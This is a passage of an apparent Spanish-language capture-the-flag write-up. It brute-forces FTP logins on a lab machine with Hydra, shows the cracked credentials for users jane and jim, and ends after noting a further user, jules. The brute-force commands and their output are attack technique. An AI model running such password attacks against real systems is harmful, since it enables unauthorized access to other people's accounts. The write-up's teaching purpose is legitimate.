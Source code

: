 Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-20 10:39:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.5.195:21/
[21][ftp] host: 192.168.5.195   login: jane   password: password
```

Con esto vemos que tenemos las credenciales de `jane` del `ftp`...

```shell
ftp jane@<IP>
```

Y si metemos la contarseña estaremos dentro...

Si listamos la `/home` de los usuarios, veremos varios usuarios, por lo que crearemos una lista de los usuarios, para ver si hay alguna contraseña mas por el `ftp`...

> users.txt

```
jane
jim
john
jules
```

Por lo que tiraremos un `hydra`...

```shell
hydra -L users.txt -P <WORDLIST> ftp://<IP> -t 64
```

Info:

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-20 10:54:40
[DATA] max 64 tasks per 1 server, overall 64 tasks, 57377596 login tries (l:4/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.5.195:21/
[21][ftp] host: 192.168.5.195   login: jane   password: password
[21][ftp] host: 192.168.5.195   login: jim   password: 12345
```

Si nos metemos como el usuario `jim` y nos metemos por el `ftp` mediante ese usuario, veremos una carpeta llamada `.ssh/` pero no podremos hacer mucho...

Si vemos el `hydra` si descubrio mas usuarios, vemos que descubrio otro usuario mas, llamado `jules`...
